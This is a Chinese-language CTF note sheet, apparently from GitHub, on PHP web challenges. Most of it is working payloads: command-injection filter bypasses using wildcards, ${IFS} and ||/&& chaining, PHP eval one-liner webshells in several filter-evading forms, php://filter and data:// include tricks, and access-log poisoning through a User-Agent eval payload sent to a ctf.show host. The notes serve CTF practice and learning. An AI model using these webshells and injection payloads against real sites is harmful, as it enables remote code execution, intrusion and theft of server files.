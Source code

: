 ## 笔记

<br><br>

* 在逆向(星号)((BYTE*)的时候用宏定义#define BYTE unsigned char即可正常使用

<br>

* system("tac flag.php")用来读取文件内容;

<br>

* ?c=system("tac%20fla(星号)")意思是c=system("tac flag");


````
3.5 通配符绕过

[…]表示匹配方括号之中的任意一个字符
{…}表示匹配大括号里面的所有模式，模式之间使用逗号分隔。
{…}与[…]有一个重要的区别，当匹配的文件不存在，[…]会失去模式的功能，变成一个单纯的字符串，而{…}依然可以展开

````

<br>

* --命令绕过

<br>

黑洞绕过：system($c." >/dev/null 2>&1");
* 它只会让分号后面的指令进入黑洞，所以这里直接绕过

* 双写分号绕过?c=tac f*;ls
* 双写&&绕过?c=tac f*%26%26ls（注：星号被绕过可以用问号）（[0-9]和%的过滤是不会过滤%26之类的）（）

* 带行号绕过?c=nl<fla''g.php%7C%7Cls(此方法可能要右键看源代码)

* 有$的情况下可以重命名flag.php成txt再直接访问:先执行?c=mv${IFS}fla?.php${IFS}a.txt%7C%7Cls 然后使用ls||ls看看有没有命名成功。成功后直接访问a.txt

* 其他注：?c=ls${IFS}/||ls查看根目录（ls /）

* ?c=cp${IFS}/fla?${IFS}/var/www/html/b.txt（将根目录（ls /）下的flag复制到可以直接在url的目录）

直接写php时：
* 经典一句话木马：<?php @eval($_POST[a]); ?>
* 短标签（过滤php）绕过：<?=eval($_POST[a]);?>（需要配合user.ini打开权限）
* 过滤[]:<?=eval($_POST{a});?>(改成花括号)
* 过滤分号’；‘：<?=`cat ../flag*`?> <?=`tac ../f*`?> <?=`nl ../flag*`?>查看源码得flag




<br>

直接eval()传参时：
* 特殊字符:"$""&"如果只是对c进行过滤，就可以通过包含另一个函数来绕过
* 做题前先看看对谁过滤，再看如何过滤
* c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
* c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
* c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
* 仅括号
* c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");
* c=show_source(next(array_reverse(scandir(pos(localeconv())))));
* c=highlight_file(next(array_reverse(scandir(dir))));
<br>

当include(c)时：直接使用协议绕过
* c=data://text/plain,<?php system('tac f*');?>

<br>

* php被过滤的时候:
* ?c=data://text/plain,<?=system("tac fla*")?>
* 注：include()只会处理<?php>里面的内容

<br>

* $被过滤的时候:
* ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* ?c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");

<br>

* 日志文件包含：（抓包改UA，在UA末尾加东西）
* 如：
````
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0<?php eval($_GET[2]);?>       \\在这里改噢
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
````


<br>

* 可以直接命令执行即可也可以用webshell后门工具连接

* ?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

* ?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();


<br>

条件竞争漏洞：（相关：2023年孟极光线上赛web）（文件上传，文件包含等都能用）
- [条件竞争](https://www.freebuf.com/articles/web/275557.html)

````
一般使用方法：

php://filter/ [read|write =]过滤器|过滤器/resource=要过滤的数据流 conversion filter(转换过滤器) convert.base64-encode & convert.base64-decode(base64加密解密) 例如：php://filter/convert.base64-encode/resource=flag.php

过滤器可以设置多个

php://filter读取源代码并进行base64编码输出，例如一些敏感信息会保存在php文件中，如果我们直接利用文件包含去打开一个PHP文件，PHP代码是不会显示到页面上的，例如：

他只显示了一条语句，这时我们可以以base64编码的方式读取指定文件的源码：

php://input协议

input协议可以访问请求的原始数据的制度刘，将post请求中的数据作为PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input，同时post想设置的文件内容，php执行时会将post内容作为文件内容，从而导致任意代码的执行。

利用该方法，我们可以直接写入php文件，输入file=php://input，然后用burp抓包，写入PHP代码：

data://text/plain协议

同样类似php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当做php文件执行，从而导致任意代码执行。

利用data://伪协议可以直接达到执行php代码的效果，例如执行phpinfo();

格式：data://text/plain,流

例如：

data://text/plain,<?php phpinfo();?>
//如果此处对特殊字符进行了过滤，我们还可以通过base64编码后再输入：
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

````




